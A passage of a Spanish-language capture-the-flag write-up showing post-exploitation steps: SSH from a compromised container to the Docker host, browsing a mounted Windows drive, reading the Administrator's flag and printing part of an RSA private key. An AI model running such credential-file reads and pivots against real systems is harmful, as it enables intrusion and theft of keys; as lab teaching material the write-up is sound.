 Me puedo conectar por SSH a la ```172.17.0.1```

```null
postgres@bc56e3cc55e9:/tmp$ ssh docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ 
```

En la raíz hay un directorio que contiene la montura del Windows

```null
docker@box:/$ ls                                                                                                                                                                                                
bin           home          linuxrc       root          sys
c             init          mnt           run           tmp
dev           lib           opt           sbin          usr
etc           lib64         proc          squashfs.tgz  var
docker@box:/$ cd c/                                                                                                                                                                                             
docker@box:/c$ ls                                                                                                                                                                                               
Users
docker@box:/c$ cd Users/                                                                                                                                                                                        
docker@box:/c/Users$ ls                                                                                                                                                                                         
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony
```

Puedo ver la segunda flag

```null
docker@box:/c/Users$ cat ./Administrator/Desktop/root.txt
cc9a0b76ac17f8f475250738b96261b3
```

Se puede ganar acceso por SSH con la ```id_rsa```

```null
docker@box:/c/Users/Administrator/.ssh$ cat id_rsa                                                                                                                                                              
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
4ocjUwG9XcU0iI4pcHT3nXPKmGjoPyiPzpa5WdiJ8QpME398Nne4mnxOboWTp3jG
aJ1GunZCyic0iSwemcBJiNyfZChTipWmBMK88wIDAQABAoIBAH7PEuBOj+UHrM+G
Stxb24LYrUa9nBPnaDvJD4LBishLzelhGNspLFP2EjTJiXTu5b/1E82qK8IPhVlC
JApdhvDsktA9eWdp2NnFXHbiCg0IFWb/MFdJd/ccd/9Qqq4aos+pWH+BSFcOvUlD
vg+BmH7RK7V1NVFk2eyCuS4YajTW+VEwD3uBAl5ErXuKa2VP6HMKPDLPvOGgBf9c
l0l2v75cGjiK02xVu3aFyKf3d7t/GJBgu4zekPKVsiuSA+22ZVcTi653Tum1WUqG
MjuYDIaKmIt9QTn81H5jAQG6CMLlB1LZGoOJuuLhtZ4qW9fU36HpuAzUbG0E/Fq9
jLgX0aECgYEA4if4borc0Y6xFJxuPbwGZeovUExwYzlDvNDF4/Vbqnb/Zm7rTW/m
YPYgEx/p15rBh0pmxkUUybyVjkqHQFKRgu5FSb9IVGKtzNCtfyxDgsOm8DBUvFvo
qgieIC1S7sj78CYw1stPNWS9lclTbbMyqQVjLUvOAULm03ew3KtkURECgYEA17Nr
Ejcb6JWBnoGyL/yEG44h3fHAUOHpVjEeNkXiBIdQEKcroW9WZY9YlKVU/pIPhJ+S
```